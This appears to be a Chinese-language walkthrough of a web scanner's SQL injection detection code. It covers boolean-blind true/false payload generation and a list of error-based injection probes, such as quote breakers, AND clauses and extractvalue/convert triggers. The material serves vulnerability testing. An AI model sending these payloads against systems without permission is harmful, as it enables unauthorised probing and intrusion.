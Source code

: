 ```python
for payload in temp_sql_flag:
    is_num = False
    if payload == "<--isdigit-->":
        if str(v).isdigit():
            is_num = True
        else:
            continue
```

开始生成payload  
获取false的  
如果是数字的直接是 `v/0`  
否则是两个随机字符串拼接到payload模块里    
这里如果随机出来的一样再次随机直到不一样为止  
获取true的  
如果是数字的直接 `v/1`  
否则就是随机字符串1 与随机字符串1拼接到模板里 相等即为true  

```python
def generatePayloads(self, payloadTemplate, v, is_num=False):
    '''
    根据payload模板生成布尔盲注所需要的True 和 False payload
    :param payloadTemplate:
    :return:
    '''
    if is_num:
        payload_false = "{}/0".format(v)
    else:
        str1 = random_str(2)
        str2 = random_str(2)
        while str1 == str2:
            str2 = random_str(2)
        payload_false = v + payloadTemplate.format(str1, str2)

    rand_str = random_str(2)
    if is_num:
        payload_true = "{}/1".format(v)
    else:
        payload_true = v + payloadTemplate.format(rand_str, rand_str)
    return payload_true, payload_false
```


###### sqli_error 报错注入

报错注入的payload模板  

```python
num = random_num(4)
s = random_str(4)
_payloads = [
    '鎈\'"\(',
    "'", "')", "';", '"', '")', '";', ' order By 500 ', "--", "-0",
    ") AND {}={} AND ({}={}".format(num, num + 1, num, num),
    " AND {}={}%23".format(num, num + 1),
    " %' AND {}={} AND '%'='".format(num, num + 1), " ') AND {}={} AND ('{}'='{}".format(num, num + 1, s, s),
    " ' AND {}={} AND '{}'='{}".format(num, num + 1, s, s),
    '`', '`)',
    '`;', '\\', "%27", "%%2727", "%25%27", "%60", "%5C",
    "extractvalue(1,concat(char(126),md5({})))".format(random_num),
    "convert(int,sys.fn_sqlvarbasetostr(HashBytes('MD5','{}')))".format(random_num)
]
```
